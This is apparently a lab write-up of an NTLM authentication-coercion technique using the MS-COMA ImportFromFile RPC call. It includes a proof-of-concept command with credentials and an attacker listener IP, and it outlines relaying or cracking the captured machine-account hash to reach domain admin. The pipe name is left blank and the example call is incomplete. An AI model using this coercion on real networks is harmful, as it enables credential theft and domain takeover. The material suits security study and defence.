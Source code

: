 # MS-COMA - Remote call to ImportFromFile (opnum 3)

## Summary

 - **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

 - **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`ImportFromFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c81e49b8-6ffa-4872-a3ad-ef423fd58bdc)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`ImportFromFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c81e49b8-6ffa-4872-a3ad-ef423fd58bdc) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ImportFromFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT ImportFromFile(
   [in, string, unique] WCHAR* pwszModuleDestination,
   [in, string] WCHAR* pwszInstallerPackage,
   [in, string, unique] WCHAR* pwszUser,
   [in, string, unique] WCHAR* pwszPassword,
   [in, string, unique] WCHAR* pwszRemoteServerName,
   [in] DWORD dwFlags,
   [in] GUID* reserved1,
   [in] DWORD reserved2,
   [out] DWORD* pcModules,
   [out, size_is(,*pcModules)] DWORD** ppModuleFlags,
   [out, string, size_is(,*pcModules)] 
     LPWSTR** ppModules,
   [out] DWORD* pcComponents,
   [out, size_is(,*pcComponents)] GUID** ppResultCLSIDs,
   [out, string, size_is(,*pcComponents)] 
     LPWSTR** ppResultNames,
   [out, size_is(,*pcComponents)] DWORD** ppResultFlags,
   [out, size_is(,*pcComponents)] LONG** ppResultHRs
 );
```

## References

 - Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

 - Documentation of function `ImportFromFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c81e49b8-6ffa-4872-a3ad-ef423fd58bdc